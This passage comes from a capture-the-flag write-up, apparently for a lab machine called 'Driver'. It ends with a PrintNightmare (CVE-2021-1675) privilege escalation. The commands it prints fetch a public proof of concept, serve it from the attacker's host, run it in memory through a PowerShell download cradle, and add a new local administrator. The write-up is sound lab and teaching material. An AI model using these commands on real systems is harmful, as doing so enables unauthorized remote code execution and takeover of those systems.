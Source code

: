 -   **I check PowerShell history but nothing**:
    -   `(Get-PSReadLineOption).HistorySavePath`
    -   {{< figure src="/ox-hugo/2024-11-11-132505_.png" >}}

-   **Check my privs**:
    -   `whoami /priv`
    -   {{< figure src="/ox-hugo/2024-11-11-132559_.png" >}}
    -   Nothing interesting.

-   **I Check the** `fw_up.php` **and** `index.php`:
    -   I check both the website `.php` files in the web-root(`wwwroot`) but neither hold anything interesting.
        -   {{< figure src="/ox-hugo/2024-11-11-132908_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}


### Discovering the host is vulnerable to PrintNightmare CVE-2021-1675: {#discovering-the-host-is-vulnerable-to-printnightmare-cve-2021-1675}

-   **As the box is called** `driver` **and there have been various nods to printers I check if the it's susceptible to** `PrintNightmare` **with netexec**:
    -   `netexec smb $box -u $user -p $pass -M printnightmare`
    -   {{< figure src="/ox-hugo/2024-11-11-133623_.png" >}}
    -   It is, lets attack.
    -   +Note+: I have a priv-esc checklist that I run through when I am working on machines and checking for `PrintNightmare` is one of these checks (I didn't just magically stumble upon the idea). However now we have a viable path forward.


### Adding an Admin User using PrintNightmare CVE-2021-1675: {#adding-an-admin-user-using-printnightmare-cve-2021-1675}

-   **Get exploit**:
    -   Lets get the POC.
    -   `wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1`
    -   {{< figure src="/ox-hugo/2024-11-11-135505_.png" >}}

-   **Start python server**:
    -   `python3 -m http.server 9000`
    -   {{< figure src="/ox-hugo/2024-11-11-135448_.png" >}}
    -   +Note+: I have this command aliased to `pws`

-   **Use download cradle to load into memory**:
    -   `iex(new-object net.webclient).downloadstring('http://10.10.14.97:9000/CVE-2021-1675.ps1')`
    -   {{< figure src="/ox-hugo/2024-11-11-135533_.png" >}}

-   +Deep Dive+: I have a deep dive into download cradles and how they work: 
    -   https://bloodstiller.com/articles/understandingdownloadcradles/

-   **Create new user &amp; add them to the admins**:
    -   `Invoke-Nightmare -NewUser "bloodstiller" -NewPassword "bl00dst1ll3r!" -DriverName "PrintIt"`
    -   {{< figure src="/ox-hugo/2024-11-11-135700_.png" >}}

